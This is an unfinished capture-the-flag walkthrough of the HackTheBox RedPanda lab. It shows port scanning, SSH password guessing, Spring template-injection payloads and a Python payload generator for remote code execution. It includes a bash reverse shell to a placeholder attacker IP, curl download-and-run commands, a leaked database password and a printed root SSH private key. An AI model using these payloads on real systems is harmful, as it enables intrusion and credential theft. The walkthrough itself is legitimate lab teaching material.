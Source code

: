 # RedPanda *INCOMPLETE*  
### A demonstration walkthrough of a pen test process using HTB's RedPanda with some normal dead ends as an example.  

#### Setup
/etc/hosts appended with "10.10.11.170 redpanda.htb"  
Firefox proxied via Zap, Zap proxied via Burp with intercept initially turned off  

Basic scan of all ports 
```
nmap -p- redpanda.htb
```
Shows ssh/22 and http/8080

The preferred way to scan.  A fast scan of all ports then a deeper scan for services on the found ports  
```
ports=$(nmap -p- --min-rate=1000 -T4  redpanda.htb | grep ^[0-9] | cut -d '/' -f 1 | tr '\n' ',' | sed s/,$//)
nmap -sC -sV -p$ports redpanda.htb
nikto -h redpanda.htb:8080
```
Interesting Results (NMAP):  
- Running OpenSSH 8.2p1 and an unknown hhtp-proxy "Made by Spring Boot" in title  
Interesting Results (NIKTO):   
- /stats/ firectory discovered
- HTTP PUT and DELETE methods allowed  
- "content-disposition" header returned    

Browse for unlinked files/resources  
```
wfuzz -w /usr/share/wfuzz/wordlist/general/common.txt http://redpanda.htb:8080/FUZZ | grep -wv 404 | grep 0000
```
POST allowed to redpanda.htb:8080/search
Confirm /stats/ responds to GET requests

**DEAD END:** Running OWASP ZAP only turned up vectors for attacking RedPanda clients.
**DEAD END:** Browsing site showed nothing interesting in source.
**DEAD END:**  Using Hydra to guess common username/passwords for SSH.  Trying a small set of default username and password combinations work more often in real world vs. simulations.  
```
echo 'root\nuser\nadmin\nadministrator\ndevelopment\ntest\nredpanda\napache\nwoodenk\ndamian' > redpanda.htb.usernames
echo 'password\nPassword\nPassw0rd\nPassw0rd!' > redpanda.htb.passwords
hydra -L redpanda.htb.usernames -P redpanda.htb.passwords -e nsr ssh://redpanda.htb
```

**DEAD END:**  Attempted various SQLi, XXE, and Command injection on search function

### SSTI
A server-side template injection occurs when an attacker is able to use native template syntax to inject a malicious payload into a template, which is then executed server-side.  

See [here](https://book.hacktricks.xyz/pentesting-web/ssti-server-side-template-injection) for further information.

We are provided with a list of payloads:
```
{{7*7}}
${7*7}
<%= 7*7 %>
${{7*7}}
#{7*7}
```
Some of the payloads didn't work, since some of the symbols (specificly #) are blacklisted by the server.

### Creating a RCE
The namp scan indicated the app is powered by "Spring Boot"  
Not being familar with Spring Boot, a Google found this good template [here](https://blog.hawkeyesecurity.com/2017/12/13/rce-via-spring-engine-ssti/)  
This returns /etc/passwd

Replace the blacklisted $ with #
```
${T(org.apache.commons.io.IOUtils).toString(T(java.lang.Runtime).getRuntime().exec(T(java.lang.Character).toString(99).concat(T(java.lang.Character).toString(97)).concat(T(java.lang.Character).toString(116)).concat(T(java.lang.Character).toString(32)).concat(T(java.lang.Character).toString(47)).concat(T(java.lang.Character).toString(101)).concat(T(java.lang.Character).toString(116)).concat(T(java.lang.Character).toString(99)).concat(T(java.lang.Character).toString(47)).concat(T(java.lang.Character).toString(112)).concat(T(java.lang.Character).toString(97)).concat(T(java.lang.Character).toString(115)).concat(T(java.lang.Character).toString(115)).concat(T(java.lang.Character).toString(119)).concat(T(java.lang.Character).toString(100))).getInputStream())}
```
This confirms the user "woodenk" with the standard home directory; still no password.

Python program to convert the command we want into a string suitable for SSTI in RedPanda search
```
#!/usr/bin/python3

def main():

        command = "whoami" # Edit this line for acceptable SSTI encoding 
        convert = []

        for x in command:
            convert.append(str(ord(x)))
        
        payload = "*{T(org.apache.commons.io.IOUtils).toString(T(java.lang.Runtime).getRuntime().exec(T(java.lang.Character).toString(%s)" % convert[0]

        for i in convert[1:]:
            payload += ".concat(T(java.lang.Character).toString({}))".format(i)

        payload += ").getInputStream())}"

        print(payload)

if __name__ == "__main__":
    main()
```
`command = "whoami"` confirms the website is running as user woodenk
### USER FLAG SUCCESS!
`command = "cat /home/woodenk/user.txt"` provides the user flag

### Plan for escalation
Using SSTI: 1) Upload shell script to create reverse shell.  2) Envoke shell script

Host the following shell script on the attacking machine.  I prefer:  `python -m http.server 8000`
```
#!/bin/bash
bash -c "bash -i >& /dev/tcp/10.10.ATTACKER.IP/9001 0>&1"
```
SSTI to upload script
`command = "curl 10.10.ATTACKER.IP:8000/shell.sh --output /tmp/shell.sh"`

Create netcat listener, then invoke uploaded shell script
`nc -nvlp 9001`

SSTI to invoke script
`command = "bash /tmp/shell.sh"`

### Connected with reverse shell as woodenk
Time for some basic enumeration on panda and woodenk
```
find / -name "*panda*" 2>/dev/null
find / -name "*woodenk*" 2>/dev/null
```

This gives us a source code directory (maybe some nice config info) and user XML files in /credits
```
cd /opt/panda_search
find . -type f -exec grep -H 'text-to-find-here' {} \;
```

result:
`./src/main/java/com/panda_search/htb/panda_search/MainController.java:            conn = DriverManager.getConnection("jdbc:mysql://localhost:3306/red_panda", "woodenk", "RedPandazRule");`


**DEAD END** Try LinPEAS to find escalation, nothing I saw at the OS level
From github to your attecking machine (HTB machines don't resolve WWW domains)
```
curl -L https://github.com/carlospolop/PEASS-ng/releases/latest/download/linpeas.sh > linpeas.sh
```
On target machine upload linPEAS
```
curl -L http://10.10.14.2:8000/linpeas.sh | sh
```

ROOT requires XXE (Incomplete)
https://shakuganz.com/2022/07/12/hackthebox-redpanda/

-----BEGIN OPENSSH PRIVATE KEY-----
b3BlbnNzaC1rZXktdjEAAAAABG5vbmUAAAAEbm9uZQAAAAAAAAABAAAAMwAAAAtzc2gtZW
QyNTUxOQAAACDeUNPNcNZoi+AcjZMtNbccSUcDUZ0OtGk+eas+bFezfQAAAJBRbb26UW29
ugAAAAtzc2gtZWQyNTUxOQAAACDeUNPNcNZoi+AcjZMtNbccSUcDUZ0OtGk+eas+bFezfQ
AAAECj9KoL1KnAlvQDz93ztNrROky2arZpP8t8UgdfLI0HvN5Q081w1miL4ByNky01txxJ
RwNRnQ60aT55qz5sV7N9AAAADXJvb3RAcmVkcGFuZGE=
-----END OPENSSH PRIVATE KEY-----

chmod 600 ./le_key.txt
ssh root@redpanda.htb -i le_key.txt


### ROOT SUCCESS!
